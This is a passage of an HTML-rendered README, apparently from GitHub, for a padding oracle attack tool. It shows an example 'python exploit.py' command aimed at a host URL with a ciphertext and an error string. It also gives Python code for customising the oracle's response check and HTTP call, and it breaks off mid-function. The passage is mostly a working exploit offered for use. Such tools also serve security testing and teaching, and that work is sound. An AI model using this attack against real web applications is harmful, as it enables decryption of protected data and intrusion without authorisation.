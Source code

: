 --post POST parameter <span class="pl-k">if</span> you need example <span class="pl-s"><span class="pl-pds">'</span>user<span class="pl-pds">'</span></span>:<span class="pl-s"><span class="pl-pds">'</span>value<span class="pl-pds">'</span></span>, <span class="pl-s"><span class="pl-pds">'</span>pass<span class="pl-pds">'</span></span>:<span class="pl-s"><span class="pl-pds">'</span>value<span class="pl-pds">'</span></span></pre></div>
<p>Example:</p>
<div class="highlight highlight-source-shell"><pre>python exploit.py -c E3B3D1120F999F4CEF945BA8B9326D7C3C8A8B02178E59AF506666542AB5EF44 -l 16 --host host.com -u /index.aspx<span class="pl-k">?</span>c= -v --error <span class="pl-s"><span class="pl-pds">"</span>Padding Error<span class="pl-pds">"</span></span></pre></div>
<p><a href="https://asciinema.org/a/40222" rel="nofollow"><img src="https://camo.githubusercontent.com/9bf06b161c9e4e5caf003d86426ec7e1bc3f0e05/68747470733a2f2f61736369696e656d612e6f72672f612f34303232322e706e67" height="350" width="550" data-canonical-src="https://asciinema.org/a/40222.png" style="max-width:100%;"></a></p>
<h2><a href="#customisation" aria-hidden="true" class="anchor" id="user-content-customisation"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Customisation</h2>
<blockquote>
<p>I wan to customize the Oracle !</p>
</blockquote>
<p>Example with sockets <a href="https://gist.github.com/mpgn/fce3c3f2aaa2eeb8fac5">https://gist.github.com/mpgn/fce3c3f2aaa2eeb8fac5</a></p>
<p>No problem, find these line and do what you have to do :)</p>
<ul>
<li>Custom oracle response:</li>
</ul>
<div class="highlight highlight-source-python"><pre><span class="pl-c"><span class="pl-c">#</span>###################################</span>
<span class="pl-c"><span class="pl-c">#</span> CUSTOM YOUR RESPONSE ORACLE HERE #</span>
<span class="pl-c"><span class="pl-c">#</span>###################################</span>
<span class="pl-s"><span class="pl-pds">'''</span> the function you want change to adapte the result to your problem <span class="pl-pds">'''</span></span>
<span class="pl-k">def</span> <span class="pl-en">test_validity</span>(<span class="pl-smi">response</span>,<span class="pl-smi">error</span>):
    <span class="pl-k">try</span>:
        value <span class="pl-k">=</span> <span class="pl-c1">int</span>(error)
        <span class="pl-k">if</span> <span class="pl-c1">int</span>(response.status) <span class="pl-k">==</span> value:
            <span class="pl-k">return</span> <span class="pl-c1">1</span>
    <span class="pl-k">except</span> <span class="pl-c1">ValueError</span>:
        <span class="pl-k">pass</span>  <span class="pl-c"><span class="pl-c">#</span> it was a string, not an int.</span>

    <span class="pl-c"><span class="pl-c">#</span> oracle repsonse with data in the DOM</span>
    data <span class="pl-k">=</span> response.read()
    <span class="pl-k">if</span> data.find(error) <span class="pl-k">==</span> <span class="pl-k">-</span><span class="pl-c1">1</span>:
        <span class="pl-k">return</span> <span class="pl-c1">1</span>
    <span class="pl-k">return</span> <span class="pl-c1">0</span></pre></div>
<ul>
<li>Custom oracle call (HTTP)</li>
</ul>
<div class="highlight highlight-source-python"><pre><span class="pl-c"><span class="pl-c">#</span>###############################</span>
<span class="pl-c"><span class="pl-c">#</span> CUSTOM YOUR ORACLE HTTP HERE #</span>
<span class="pl-c"><span class="pl-c">#</span>###############################</span>
<span class="pl-k">def</span> <span class="pl-en">call_oracle</span>(<span class="pl-smi">host</span>,<span class="pl-smi">cookie</span>,<span class="pl-smi">url</span>,<span class="pl-smi">post</span>,<span class="pl-smi">method</span>,<span class="pl-smi">up_cipher</span>):
    <span class="pl-k">if</span> post:
        params <span class="pl-k">=</span> urllib.urlencode({post})
    <span class="pl-k">else</span>: